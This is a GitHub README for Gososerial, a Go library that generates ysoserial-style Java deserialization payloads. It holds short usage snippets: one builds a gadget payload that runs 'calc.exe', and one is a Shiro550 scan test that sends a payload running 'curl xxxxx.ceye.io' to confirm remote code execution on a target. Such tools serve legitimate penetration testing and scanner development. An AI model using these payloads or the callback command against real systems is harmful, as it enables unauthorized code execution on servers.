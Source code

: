 # Gososerial

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

## Quick Start

```shell
go get github.com/JimmyWA/Gososerial
```

```go
package main

import gososerial "github.com/JimmyWA/Gososerial"

func main()  {
	payload := gososerial.GetCC1("calc.exe")
	......
	sendPayload(payload)
	......
}
```

Shiro550 Scan Code

```go
......
func TestFindShiro(t *testing.T) {
	target := "http://a.b.c.d:8080/"
	key := shiro.CheckShiroKey(target)
	if key != "" {
		log.Info("find key: %s", key)
	}
	payload := gososerial.GetCC5("curl xxxxx.ceye.io")
	shiro.SendPayload(key, payload, target)
}
......
```

## Reference

**4ra1n**: https://github.com/4ra1n

**ysoserial**: https://github.com/frohoff/ysoserial

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n
